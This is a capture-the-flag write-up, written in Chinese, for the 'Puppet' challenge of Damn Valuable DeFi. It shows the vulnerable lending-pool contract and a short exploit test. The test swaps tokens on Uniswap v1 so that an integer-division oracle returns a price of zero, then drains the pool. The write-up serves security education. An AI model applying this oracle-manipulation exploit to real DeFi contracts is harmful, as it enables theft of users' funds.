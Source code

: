 
## Puppet

> There’s a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 10000 DVTs in liquidity.
There’s a DVT market opened in an [Uniswap v1 exchange](https://uniswap.org/docs/v1/), currently with 10 ETH and 10 DVT in liquidity.
Starting with 100 ETH and 100 DVTs in balance, you must steal as many tokens as possible from the lending pool. And at the end of the attack, your ETH balance shouldn’t have decreased.

题目最核心的代码 `borrow()` 函数会根据传入的 ETH 数目，借出对应数目的 token，其中数目计算的关键在于 `computeOraclePrice()` 函数:

```
function borrow(uint256 borrowAmount) public payable nonReentrant `{`
    uint256 amountToDeposit = msg.value;

    uint256 tokenPriceInWei = computeOraclePrice();
    uint256 depositRequired = borrowAmount.mul(tokenPriceInWei) * 2;

    require(amountToDeposit &gt;= depositRequired, "Not depositing enough collateral");
    if (amountToDeposit &gt; depositRequired) `{`
        uint256 amountToReturn = amountToDeposit - depositRequired;
        amountToDeposit -= amountToReturn;
        msg.sender.sendValue(amountToReturn);
    `}`        

    deposits[msg.sender] += amountToDeposit;

    // Fails if the pool doesn't have enough tokens in liquidity
    require(token.transfer(msg.sender, borrowAmount), "Transfer failed");
`}`
```

继续阅读合约的源代码，可以发现 `computeOraclePrice()` 计算过程存在着一定问题，如果 `uniswapOracle.balance &lt; token.balanceOf(uniswapOracle)`，那么得到的结果其实是 0：

```
function computeOraclePrice() public view returns (uint256) `{`
    return uniswapOracle.balance.div(token.balanceOf(uniswapOracle));
`}`
```

那么解题的思路非常明确，先通过调用 Uniswap v1 提供的 `tokenToEthSwapInput()` 函数，将我们拥有的部分 token 转换成 ETH，满足 `uniswapOracle.balance &lt; token.balanceOf(uniswapOracle)` 的要求，然后直接调用 `borrow()` 函数，用 0 的代价清空贷款池。编写利用的代码：

```
it('Exploit', async function () `{`
    const deadline = (await web3.eth.getBlock('latest')).timestamp + 300;
    await this.token.approve(this.uniswapExchange.address, ether('0.01'), `{` from: attacker `}`);
    await this.uniswapExchange.tokenToEthSwapInput(ether('0.01'), 1, deadline, `{` from: attacker `}`);
    await this.lendingPool.borrow(POOL_INITIAL_TOKEN_BALANCE, `{` from: attacker `}`);
`}`);
```
